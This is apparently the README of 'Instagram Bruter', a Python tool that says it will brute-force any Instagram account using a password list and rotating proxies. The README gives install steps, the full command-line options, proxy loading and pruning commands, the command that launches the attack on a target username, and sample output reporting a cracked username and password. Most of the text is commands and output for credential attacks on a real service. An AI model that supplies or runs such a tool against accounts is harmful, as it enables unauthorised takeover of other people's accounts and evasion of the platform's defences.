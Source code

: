 # Instagram Bruter
[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/VYRAZg5)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way given a list of proxies.

### NOTICE

~~I'm no longer maintaining this project.~~

### Support

It motivates me to keep updating this program.

> **Bitcoin Wallet:** 3Kr5C9t9HWwPfqzSNXeBNyRvJWw9sSLeKy<br/>
> **PayPal:** https://www.paypal.me/Msheikh03

## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python instagram.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instagram.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instagram.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
